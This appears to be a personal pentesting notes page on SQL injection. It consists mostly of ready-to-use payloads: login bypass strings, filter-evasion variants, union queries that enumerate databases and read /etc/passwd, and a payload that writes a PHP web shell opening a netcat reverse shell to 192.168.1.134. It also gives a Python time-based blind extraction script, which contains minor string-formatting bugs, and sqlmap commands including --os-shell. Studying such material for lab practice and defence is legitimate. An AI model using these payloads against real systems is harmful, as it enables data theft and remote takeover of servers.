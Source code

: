 ```yaml
---
title: Notes | SQLi
author: Zeropio
date: 2021-12-12
categories: [Notes, Databases]
tags: [sql, injection]
permalink: /notes/databases/sqli 
---
```



# Basic access
Maybe the database have the default login, we can try with:
```sql
> mysql -u root -h <ip>
```

---

# Basic Injection
If we can send a query to the database to log, we can do:
```sql
' or '1'='1' --
```

Probably we need to change the text to bypass filter:
```sql
aNd 1=1
aNd 21=21
orDeR bY 1
orDer+bY+1
orDer/\*\*/bY/\*\*/1
orDer%20bY%201
```
We can change the spaces by:
```sql
+, /**/, %20
```

Then we add a comment line, there are different comment for each program:
- Oracle: --
- MySQL: #
- MariaDB: /* */
Some others comment can be:
- /*
- //
- %23

##### Probably, we need to add **;** at the end of the query (before the comment).

Also, we can try to catch the login request with burp and send the SQLi with it.
  
---

# Error Based
When we see an SQL error in the page we can try to gather information of the web.
Adding and:
```sql
... ORDER BY 5; --
```
We can check how many rows are in the query.
##### (We can change **--** to others SQL comments.)

Then we can do an union with the columns:
```sql
... UNION SELECT 1,2,3,4,5;
... UNION SELECT NULL,NULL,NULL,NULL,NULL;
```

We can use to enumerate the following functions, replacing the numbers or NULL:
- database()
- user()
- load_file('/etc/password')

Now we can get the tables from the database:
```sql
... UNION SELECT table_name,NULL FROM information_schema.tables WHERE table_schema = "database-name";
```

Or the others databases:
```sql
... UNION SELECT schema_name,NULL FROM information_schema.schemata;
```
Some databases can limit the amount on databases show, we can try to change it with limit:
```sql
... UNION SELECT schema_name,NULL FROM information_schema.schemata LIMIT 1,1; -- This will show the first one
... UNION SELECT schema_name,NULL FROM information_schema.schemata LIMIT 2,1; -- This will show the second one
```

To get the columns of a table:
```sql
... UNION SELECT column_name, NULL FROM information_schema.columns WHERE table_schema = "database-name" AND table_name = "table-name";
```

We can use this syntax to read and write system files:
```sql
... UNION SELECT load_file('/etc/passwd'), NULL;
... UNION SELECT 'SUS', NULL into outfile '/tmp/attack.txt;
```
And then create a reverse shell:
```sql
' union select null,'<?passthru("nc -e /bin/sh 192.168.1.134 9000");?>' into outfile '/tmp/shell.php'#
```

If we can not pass a string like **"database-name"** we can encode it:
```sql
> echo "database-name" | xxd -ps
```
##### (We may remove the **0a**, and add a **0x** at the beggining.)

---

# Time Based (Blind)
We can make sleep the sql function in order to guess if the page is not displaying anything.

For example:
```sql
... 'admin' and sleep(5) --If the user is correct it will wait 5 sec 
... AND if(substr(database(),1,1)='c', sleep(5),1); --
```

We can make a Python Script:
```python
#!/usr/bin/python3

import requests, time, sys, signal
from pwn import *

url = '[your-url]'
s = '0123456789abcdefghijklmnopqrstuvwxyz'
result = ''

def def_handler(sig, frame):
	log.failure("Saliendo")
	sys.exit(1)

signal.signal(signal.SIGINT, def_handler)


def check(payload):
	data_post = {
		'username' : '%s' % payload,
		'password' : 'test'
	}

	time_start = time.time()
	content = requests.post(url, data=data_post)
	time_end = time.time()

	if (time_end - time_start > 5):
		return 1

p1 = log.progress('Database')
p2 = log.progress('Payload')

for i in range(0,10):
	for c in s:
		payload = "' OR if(substr(database(),%d,1)='%c', sleep(5),1); -- - % (i, c)"
		p2.status("%s" % payload)
		
		if check(payload):
			result += c
			p1.status("%s % result")
			break

log.info("Database: %s" % result)
```

We can change **database()** from the others functions in the **Error Based** to guess another values (tables, columns,...).

---

# SQLmap
We can try searching a URL with:
```console
> sqlmap -u "http://192.168.1.137/mutillidae/index.php?page=user-info.php&username=admin&password=aaaa&user-info-php-submit-button=View+Account+Details"
```

We can use the following options to get a reverse shell:
- **--os-shell**
- **--sql-shell**

With **Burp** we can capture the request and do the scan with a file with the header:
```console
> sqlmap -r req.txt
```
